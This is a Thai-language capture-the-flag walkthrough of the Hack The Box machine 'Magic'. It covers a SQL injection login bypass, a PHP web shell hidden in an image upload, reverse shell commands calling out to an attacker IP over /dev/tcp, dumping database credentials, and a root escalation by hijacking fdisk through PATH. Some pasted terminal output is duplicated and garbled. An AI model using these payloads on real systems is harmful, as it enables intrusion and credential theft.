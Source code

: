 # Recon

## TCP Scan
```bash
./scan.sh 10.10.10.185
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:20 +07
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds

```

ทดสอบใส่ SQLi ไปที่หน้า Login ปรากฎว่าสามารถ Bypass ได้ไปที่หน้า upload.php 

```sql
' or 1=1-- -
```


![[Challenge/HTB Challenge/Magic/IMG/001.png]]

upload.php
![[Challenge/HTB Challenge/Magic/IMG/002.png]]


## Bypass upload 

จากการทดสอบเราจะไม่สามารถ upload ไฟล์ php shell ไปได้ตรงๆ โดยระบบจะมีการ Filter ไฟล์ที่ Upload เข้าไป โดยจะอนุญาตเฉพาะ jpg, png เท่านั้น 

ทั้งนี้ เราสามารถใช้ cat.php.jpg ไปได้ โดยทำการเพิ่ม payload ของ php แทรกไประหว่างไฟล์

![[Challenge/HTB Challenge/Magic/IMG/003.png]]

ทั้งนี้ จากการตรวจสอบหน้า index.php เราจะเห็นว่าระบบจะมีการเก็บไฟล์ไว้ที่ /images/uploads/ชื่อไฟล์ ทำให้เราสามารถทราบได้ว่าปลายทางที่เก็บอยู่ที่ใด 
![[Challenge/HTB Challenge/Magic/IMG/004.png]]

## Shell as www-data

จากนั้นทดสอบโจมตีด้วย Reverse shell ก็จะสามารถเข้าถึงเป้าหมายได้ 
```http
http://10.10.10.185/images/uploads/cat2.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.34/443%200%3E%261%27
```

![[Challenge/HTB Challenge/Magic/IMG/005.png]]

## Enum host 

เนื่องจากว่าเป้าหมายเป้นเว็บไซต์จึงเข้าไปตรวจสอบบนไฟล์ /var/www/Magic จะพบ config ไฟล์ของ db.php5 ทำให้เป็นข้อมูลของชื่อผู้ใช้งานและรหัสผ่าน สำหรับเข้าใช้งาน mysql 

![[Challenge/HTB Challenge/Magic/IMG/006.png]]

```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![[Challenge/HTB Challenge/Magic/IMG/007.png]]

## Shell as theseus 
จะพบรหัสผ่านของ admin ซึ่งหากเราลอง su จะสามารถเข้าใช้งานได้ 

```bash
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic$ whoami 
whoami 
theseus
theseus@magic:/var/www/Magic$ 
```


## Become ROOT

```bash
find / -user root -type f -perm -4000 -ls 2>/dev/null
```


จะพบว่ามีบรรทัดหนึ่งที่น่าสนใจโดยมีสิทธิของกลุ่ม users และมี owner เป็น root 
```bash
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
```

จากนั้นให้ทำการวิเคราะห์ binary  ดังกล่าวด้วยการรัน sysinfo จากนั้นตรวจสอบด้วยคำสั่ง ltrace เพื่อที่จะตรวจสอบว่า Binary ดังกล่าวมีการเรียกใช้อะไรจากภายนอกบ้าง 

```bash
sysinfo

ltrace sysinfo
```

จากการรันเราจะพบว่าโปรแกรม sysinfo มีการเรียกใช้งาน fdisk ด้วยซึ่งคาดว่าจะมีการรันด้วยสิทธิ ROOT  

![[Challenge/HTB Challenge/Magic/IMG/008.png]]


โดยคำสั่ง popen เป็นการเปิดใช้งาน Process บน Linux ซึ่งจากบรรทัดดังกล่าวเป็นการเรียกใช้ fidisk ซึ่งหากไม่มีการระบุ full path นั่นหมายความว่าเราก็สามารถ Hijack Binary ได้เช่นกัน 

จากนั้นทำการแทรก binary ของ fdisk ด้วย Reverse shell ดังต่อไปนี้ 
```bash
theseus@magic:~$ cd /dev/shm
cd /dev/shm

theseus@magic:/dev/shm$ echo -e '#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/443 0>&1' 

</bash

bash -i >& /dev/tcp/10.10.14.34/443 0>&1' 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/443 0>&1

theseus@magic:/dev/shm$ echo -e '#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


<nbash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


theseus@magic:/dev/shm$ chmod +x fdisk


chmod +x fdisk

theseus@magic:/dev/shm$ export PATH="/dev/shm:$PATH"

export PATH="/dev/shm:$PATH"

theseus@magic:/dev/shm$ sysinfo

```


และฝั่งผู้โจมตีการรอรับ  reverse shell ก็จะได้สิทธ้ root 

![[Challenge/HTB Challenge/Magic/IMG/009.png]]


# PWNED
```